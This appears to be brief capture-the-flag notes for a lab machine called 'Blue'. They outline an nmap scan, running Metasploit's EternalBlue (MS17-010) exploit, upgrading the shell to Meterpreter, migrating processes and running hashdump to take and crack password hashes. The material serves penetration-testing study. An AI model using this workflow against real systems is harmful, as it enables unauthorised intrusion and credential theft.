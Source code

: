 # Blue

- Scanned the machine using nmap 
    ```
    nmap -sC -sV -oN nmap/initial 10.10.1.232
    ```

- Machine is vulnerable to eternal blue exploit (ms17-010)
- Start metasploit
- search for eternalblue and `set <path_to_exploit>`
- `set rhosts <target ip>`
- Run the exploit
- Background the DOS shell
- Now we will escalate this shell using metasploit
- Use `shell_to_mterpreter` post module
- Select the new session for use.
- Now we need to migrate to a process to get a stable connection. First list all the processes using `ps` command. Then migrate using `migrate <pid>`.
- Run `hashdump` to dump all the passwords on the machine
- Crack the hash obtained
- Find the respective flags using `search -f flag*.*`
